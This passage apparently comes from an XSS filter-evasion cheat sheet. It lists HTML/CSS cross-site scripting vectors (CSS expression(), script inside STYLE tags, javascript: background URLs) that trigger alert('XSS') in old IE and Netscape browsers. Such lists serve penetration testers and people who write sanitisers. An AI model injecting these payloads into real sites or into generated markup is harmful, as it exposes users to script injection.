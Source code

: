 Created by Roman Ivanov

```html
<img style="xss:expr/*XSS*/ession(alert('XSS'))" />
```

## IMG STYLE with Expression

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```html
exp/*<a
  style='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'
></a>
```

## STYLE Tag (Older versions of Netscape only)

```html
<style type="text/javascript">
  alert('XSS');
</style>
```

## STYLE Tag using Background-image

```html
<style>
  .XSS {
    background-image: url("javascript:alert('XSS')");
  }</style
><a class="XSS"></a>
```

## STYLE Tag using Background

```html
<style type="text/css">
  BODY {
    background: url("javascript:alert('XSS')");
  }</style
>` `<style type="text/css">
  BODY {
    background: url("<javascript:alert>('XSS')");
  }
</style>
```

## Anonymous HTML with STYLE Attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:
